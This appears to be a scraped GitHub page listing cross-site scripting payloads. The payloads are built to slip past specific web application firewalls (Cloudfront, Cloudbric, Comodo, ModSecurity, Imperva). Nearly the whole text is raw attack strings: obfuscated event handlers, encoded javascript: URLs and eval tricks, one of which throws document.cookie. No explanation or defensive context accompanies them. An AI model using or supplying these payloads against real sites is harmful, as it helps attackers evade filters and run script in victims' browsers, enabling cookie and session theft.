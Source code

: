 ```java

<img ignored=() src=x onerror=prompt(1)>

<svg onx=() onload=(confirm)(1)>

<--`<img/src=` onerror=confirm``> --!>

<img src=x onerror="a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]](document.domain)">

<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x

'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>

'"><img/src/onerror=.1|alert``>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

Function("\\x61\\x6c\\x65\\x72\\x74\\x28\\x31\\x29")();
```

2. Cloudfront

```
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>

<--`<img%2fsrc%3d` onerror%3dalert(document.domain)> --!>

"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
```

3. Cloudbric

```
<a69/onclick=[1].findIndex(alert)>pew
```

4. Comodo WAF

```
<input/oninput='new Function`confir\\u006d\\`0\\``'>

<p/ondragstart=%27confirm(0)%replace(/.+/,eval)%20draggable=True>dragme
```

5. ModSecurity

```
<a href="jav%0Dascript&colon;alert(1)">
```

6. Imperva

```
<input id='a'value='global'><input id='b'value='E'><input 'id='c'value='val'><input id='d'value='aler'><input id='e'value='t(documen'><input id='f'value='t.domain)'><svg+onload[\\r\\n]=$[a.value+b.value+c.value](d.value+e.value+f.value)>

<x/onclick=globalThis&lsqb;'\\u0070r\\u006f'+'mpt']&lt;)>clickme

<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click

<a69/onclick=write&lpar;&rpar;>pew

<details/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"/open>

<svg onload\\r\\n=$.globalEval("al"+"ert()");>
```